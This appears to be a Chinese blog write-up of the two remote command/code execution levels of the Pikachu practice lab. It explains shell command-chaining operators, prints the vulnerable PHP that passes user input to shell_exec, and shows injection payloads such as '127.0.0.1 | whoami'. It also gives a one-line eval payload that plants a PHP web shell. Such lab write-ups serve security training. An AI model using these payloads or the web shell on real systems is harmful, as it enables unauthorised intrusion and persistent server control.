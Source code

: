 ```yaml
---
layout: post
title: pikachu-01 RCE
author: PWN022
tags:
- Network security
date: 2025-10-04 00:08 +0800
toc:  true
excerpt: ""
---
```


# pikachu-01 RCE(remote command/code execute)

# 概述

pikachu靶场的RCE远程命令执行关卡（2关）记录。

> **介绍**
> RCE远程命令/代码执行，RCE英文全称：remote command/code execute。它是一种极为严重的安全风险，允许攻击者在未授权的情况下，通过网络远程在目标系统上执行任意代码。攻击者利用 RCE安全风险，可直接获取系统的控制权，进而窃取敏感信息，如用户账号、密码、企业机密数据等；还能篡改系统文件和配置，破坏系统的正常运行，导致业务中断；甚至可以在系统中植入后门程序，长期控制目标系统，为后续的攻击活动提供便利。
>
> **远程系统命令执行**
> 一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。
>
> 现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。 在这种平台上往往会出现远程系统命令执行的漏洞,不信的话现在就可以找你们运维部的系统测试一下,会有意想不到的"收获"-_-
>
> **远程代码执行**
> 同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## 常用符号

在命令执行安全风险场景里，`&、&&、|、||、`; 这些符号被攻击者用于拼接命令和控制命令执行流程，以下是它们的用法和区别如下所示。

1. `&`

   作用：在多数操作系统中，`&` 用于让命令在后台执行。在命令执行安全风险里，它能使多个命令并行执行，即前一个命令启动后，后续命令无需等待其完成就会开始执行。

   示例：假设存在安全风险的系统允许用户输入并执行命令，攻击者输入 `ping 127.0.0.1 & ls`，那么 ping 命令和 ls 命令会同时开始执行。

2. `&&`

   作用：`&&` 用于按顺序依次执行命令，并且只有当前一个命令成功执行（返回状态码为 0）时，才会执行后一个命令。这常用于需要前一个操作完成且成功后再进行下一步操作的情况。

   示例：输入 `ping 127.0.0.1 && ls`，只有当 ping 命令成功执行（即能正常连接到 127.0.0.1）时，ls 命令才会执行。

3. `|`

   作用：`| `是管道符号，它把前一个命令的输出作为后一个命令的输入。攻击者可利用它将多个命令组合起来，实现复杂的数据处理和操作。

   示例：输入`ls | grep test`，ls 命令会列出当前目录下的文件和文件夹，然后将结果传递给 grep 命令，grep 会在这些结果中查找包含 "test" 的行。同理也可以进行如`ping 127.0.0.1 | whoami`此类的操作。

4. `||`

   作用：`|| `同样用于连接两个命令，不过与 `&& `相反，只有当前一个命令执行失败（返回状态码不为 0）时，才会执行后一个命令。这可用于在某个操作失败时执行备用操作。

   示例：输入 `false || ls`，由于 false 命令执行失败，所以会接着执行 ls 命令。

5. `;`

   作用：`; `用于分隔多个命令，它会依次执行这些命令，无论前一个命令执行成功与否，后续命令都会继续执行。

   示例：输入 `ping 127.0.0.1 ; ls`，先执行 ping 命令，然后不管 ping 执行结果如何，都会执行 ls 命令。

# exec-ping

## 源码分析

```php
// 初始化一个空字符串变量 $result，用于存储执行命令后的结果
$result = '';
 
// 检查是否通过 POST 方式提交了表单，并且表单中名为 'ipaddress' 的字段不为空
if (isset($_POST['submit']) && $_POST['ipaddress'] != null) {
    // 从 POST 请求中获取用户输入的 IP 地址，并将其赋值给变量 $ip
    $ip = $_POST['ipaddress'];
    // $check=explode('.', $ip);
    // 这是一段注释掉的代码，原本意图是将 IP 地址按点号 '.' 拆分成数组，
    // 然后可以对数组中的每个数字进行范围校验，
    // 例如第一位和第四位数字范围是 1 - 255，中间两位数字范围是 0 - 255
    // $check = explode('.', $ip); 
 
    // 检查当前服务器操作系统是否为 Windows 系统
    if (stristr(php_uname('s'), 'windows')) {
        // var_dump(php_uname('s')); 这是一段注释掉的代码，用于打印当前服务器操作系统名称
        // 使用 shell_exec 函数执行 Windows 系统下的 ping 命令，将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping ' . $ip);
    } else {
        // 如果服务器操作系统不是 Windows 系统，则执行 Linux 系统下的 ping 命令，
        // 并指定 ping 的次数为 4 次，同样将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping -c 4 ' . $ip);
    }
}
```

## 解决乱码

在pikachu-master\vul\rce目录中找到rce_ping.php文件，按如下代码进行修改即可解决乱码问题。

```php
if($result){
	$result = iconv("GBK", "UTF-8", $result); // 添加此行代码
	echo "<pre>{$result}</pre>";
}
```

## 正式操作

由于windows和linux有3个命令连接符是相同的`（|,||,&&）`，因此在不知道目标的具体操作系统的情况下（虽然是我自己搭建的环境，但是，假装不知道吧）。

输入payload：`127.0.0.1 | whoami`，结果如下图所示，执行完命令后，可以在页面看到已经获取到了目标的域和用户名：win-unahmjh2g8h\administrator，同时由于是administrator所以也知道了操作系统为Windows。

![alt](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce1.png)

输入payload：`127.0.0.1 | dir`，即可查看到当前路径和路径下的文件。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2.png)

当然还有其它操作，比如输入payload：`127.0.0.1 | ipconfig`可以查看到目标的IP地址。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce3.png)

# exec-eval

## 源码分析

前端：name="txt"产生 POST 字段；后端：用户输入未被过滤直接传入eval()函数中。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-5.png)

## 正式操作

题目给到提交一个喜欢的字符串，所以就先随便扔点东西上去。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-1.png)

这里发现好像没什么限制，所以直接不演了，payload直接输入phpinfo();发现被执行，所以再试试能不能植入一句话木马。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-2.png)

```php
// 一句话木马投放
// payload：
fputs(fopen('shell.php','w'),'<?php assert($_POST[fin]);?>');
```

提交一句话之后，发现页面没什么变化，但是当返回靶机进行查看后，发现目录下已经多了一个shell.php的文件，遂用蚁剑进行连接，于是整个关卡到此结束。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-3.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-4.png)

